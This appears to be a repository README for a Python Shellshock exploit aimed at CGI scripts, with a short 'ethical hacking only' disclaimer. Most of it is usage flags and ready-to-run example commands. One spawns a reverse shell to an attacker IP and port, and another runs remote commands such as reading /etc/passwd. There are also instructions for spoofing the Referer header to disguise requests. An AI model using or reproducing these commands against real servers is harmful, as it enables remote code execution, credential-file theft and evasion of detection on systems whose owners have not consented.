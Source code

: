 # Shellshock.py
Python3 shellshock exploit, for ethical hacking/pentesting purposes only. Use it at your own risk. I'm not responsible if you use it with illegal purposes.

<h3>Usage:</h3>

```
-u, --url To specify the target URL (root path), for example: http://example.com
-r, --route-to-cgi To specify the route to the CGI script, for example /cgi-bin/time.sh
-c, --comand To execute remote commands, for example: 'cat /etc/passwd' USE SINGLE QUOTES
-s, --shell To spawn a reverse shell (lhost and lport arguments needed)
-lh, --lhost For specifying your IPv4 to receive the reverse shell, for example: 10.10.14.6
-lp, --lport For specifying the Local Port that you want to use to receive the reverse shell, for example: 443
-to, --timeout The timeout in seconds that you want to set for the HTTP requests, default is 10.
-R, --referer-spoof If you want to use Referer Spoofing, specify a trustable URL, for example: https://www.google.com/search?q=cabecera+referer&oq=cabecera+referer&aqs=chrome..69i57j69i59l2j0l4j69i60.3531j0j7&sourceid=chrome&ie=UTF-8
```

You can do two things with this script, you can receive a shell, or you can execute remote commands

<h3>Example for receiving a shell:</h3>

```
python3 shellshock.py -u http://example.com -r /cgi-bin/time.sh -s -lh 10.10.14.6 -lp 443
```

<h3>Example for executing remote commands:</h3>

```
python3 shellshock.py -u http://example.com -r /cgi-bin/time.sh -c 'cat /etc/passwd'
```

<h3>If you want to make referer spoofing</h3>

```
Add the -R or --referer-spoof flag both for receiving a shell or executing remote commands, followed by a trustable URL, f. ex: https://www.google.com/search?q=cabecera+referer&oq=cabecera+referer&aqs=chrome..69i57j69i59l2j0l4j69i60.3531j0j7&sourceid=chrome&ie=UTF-8
```
